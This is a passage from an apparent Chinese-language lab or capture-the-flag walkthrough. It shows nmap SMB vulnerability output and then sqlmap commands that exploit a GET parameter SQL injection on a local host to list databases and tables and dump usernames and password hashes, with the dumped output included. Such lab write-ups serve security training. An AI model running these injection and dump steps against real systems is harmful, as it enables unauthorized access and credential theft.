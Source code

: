 ```shell
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: false

Nmap done: 1 IP address (1 host up) scanned in 112.86 seconds
```

## web发现

-   查看首页发现存在`get`型数字注入
-   ![image-20230523142246507](https://raw.githubusercontent.com/r0o983/images/main/image-20230523142246507.png)

### 调用`sqlmap`进行注入测试

```shell
# 获取当前数据库
sqlmap -u "http://192.168.2.137/profile&id=20" --dbms=mysql --current-db

# 获取表信息
sqlmap -u "http://192.168.2.137/profile&id=20" --dbms=mysql -D website --tables

# 获取列信息
sqlmap -u "http://192.168.2.137/profile&id=20" --dbms=mysql -D website -T users --columns

# 获取其中具体字段的值并进行下载
sqlmap -u "http://192.168.2.137/profile&id=20" --dbms=mysql -D website -T users -C 'username,password' --dump

[15:16:17] [INFO] resumed: 'e22f07b17f98e0d9d364584ced0e3c18','brian@localhost.localdomain'
[15:16:17] [INFO] resumed: '0d9ff2a4396d6939f80ffe09b1280ee1','john@localhost.localdomain'
[15:16:17] [INFO] resumed: '2146bf95e8929874fc63d54f50f1d2e3','alice@localhost.localdomain'
[15:16:17] [INFO] resumed: '9f80ec37f8313728ef3e2f218c79aa23','ruby@localhost.localdomain'
[15:16:17] [INFO] resumed: '5d93ceb70e2bf5daa84ec3d0cd2c731a','leon@localhost.localdomain'
[15:16:17] [INFO] resumed: 'ed2539fe892d2c52c42a440354e8e3d5','julia@localhost.localdomain'
[15:16:17] [INFO] resumed: '9c42a1346e333a770904b2a2b37fa7d3','michael@localhost.localdomain'
[15:16:17] [INFO] resumed: '3a24d81c2b9d0d9aaf2f10c6c9757d4e','bruce@localhost.localdomain'
[15:16:17] [INFO] resumed: '4773408d5358875b3764db552a29ca61','neil@localhost.localdomain'
[15:16:17] [INFO] resumed: 'b2a97bcecbd9336b98d59d9324dae5cf','charles@localhost.localdomain'
[15:16:17] [INFO] resumed: '4cb9c8a8048fd02294477fcb1a41191a','foo@bar.com'
[15:16:17] [INFO] resumed: 'b0baee9d279d34fa1dfd71aadb908c3f','222@11'
[15:16:17] [INFO] resumed: '098f6bcd4621d373cade4e832627b4f6','test@nowhere.com'

```
